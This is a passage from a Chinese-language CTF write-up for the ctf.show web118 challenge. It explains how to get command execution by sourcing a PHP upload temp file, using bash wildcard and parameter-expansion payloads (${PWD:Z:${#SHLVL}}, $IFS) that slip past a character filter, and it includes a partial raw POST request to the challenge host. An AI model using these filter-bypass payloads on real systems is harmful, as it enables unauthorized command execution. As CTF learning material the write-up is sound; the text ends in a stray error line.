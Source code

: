 ### 思路二：php临时文件执行命令

根据上面的方法我又试着构造了下构造出了 / ,但是构造不出[]所以直接将最后以为固定为一个大写字母C,只要不断发包就有可能出现C结尾的临时文件

```
. /???/????????[@-[]
# payload
.$IFS${PWD%%????????????}???${PWD%%????????????}????????C
```

本地测试结果如下：

![web118_kali](./image/web118_kali2.png)

但是测试发送时发现%%也被过滤了

参考hint构造了

```
${PWD:Z:${#SHLVL}} ==> /
这里:Z字母都会变成0,任何字母都可以，也可以用${#} ${#SHLVL} ==>1
.$IFS${PWD:Z:${#SHLVL}}???${PWD:Z:${#SHLVL}}????????C

POST / HTTP/1.1
Host: abb59716-e2bc-4e19-b2e6-acddfab13755.challenge.ctf.show
Content-Length: 447
Cache-Control: max-age=0
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryThAVkFWYrukHq9ZA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
```

[ERROR]: could not find driver